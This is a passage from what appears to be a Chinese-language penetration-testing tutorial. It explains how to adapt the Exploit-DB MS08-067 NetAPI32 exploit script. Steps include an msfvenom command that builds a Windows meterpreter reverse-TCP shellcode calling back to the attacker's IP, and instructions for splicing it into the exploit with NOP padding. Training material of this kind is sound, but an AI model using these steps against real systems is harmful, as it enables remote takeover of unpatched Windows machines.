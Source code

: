     ```

输出将如下截图所示：

![如何做...](img/image_04_042.jpg)

1.  我们可以看到有一个名为“Microsoft Windows - 'NetAPI32.dll' Code Execution (Python) (MS08-067)”的 Python 脚本可用。现在我们读取 Python 文件的内容，文件路径是`/usr/share/exploitdb/platforms/windows/remote/40279.py`。在桌面上复制一份相同的文件。![如何做...](img/image_04_043.jpg)

1.  在阅读文件时，发现脚本使用了一个连接到不同 IP 和端口的自定义有效载荷：![如何做...](img/image_04_044.jpg)

1.  所以我们必须首先编辑代码，并将我们想要执行的有效载荷指向我们的 IP 地址和端口。为了做到这一点，我们将使用`msfvenom`创建我们的有效载荷，以便我们可以让这个脚本执行。在 Kali 终端上输入以下命令，为 Kali IP 创建一个用于反向连接的 Python shell 代码：

```
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali IP
    Address> LPORT=443 EXITFUNC=thread -b "x00x0ax0dx5cx5fx2f
    x2ex40" -f python -a x86

    ```

输出将如下截图所示：

![如何做...](img/image_04_045.jpg)

1.  请注意，生成的有效载荷为 380 字节。复制生成的整个`buf`行，并将其粘贴到一个文件中，将单词`buf`重命名为`shellcode`，因为我们使用的脚本使用单词`shellcode`进行有效载荷传递。文本文件看起来像这样：![如何做...](img/image_04_046.jpg)

请注意我们已经删除了第一行，`buf = ""`。

现在我们需要非常小心：在 Python 脚本中提到他们的有效载荷大小为 380 字节，其余部分已填充 nops 以调整传递。我们必须确保相同，所以如果有 10 个 nops 和 380 字节的代码，我们假设有 390 字节的传递，所以如果我们生成的 shell 代码是 385 字节，我们只会添加 5 个 nops 以保持我们的缓冲区恒定。在目前的情况下，新的有效载荷大小也是 380，所以我们不需要处理 NOP。现在我们将用我们创建的新 shell 代码替换原始 shell 代码。因此，用新生成的 shell 代码替换以下突出显示的文本：

![如何做...](img/image_04_047.jpg)

请注意，我们已经在`/x90` NOP 代码之后替换了整个 shell 代码。
```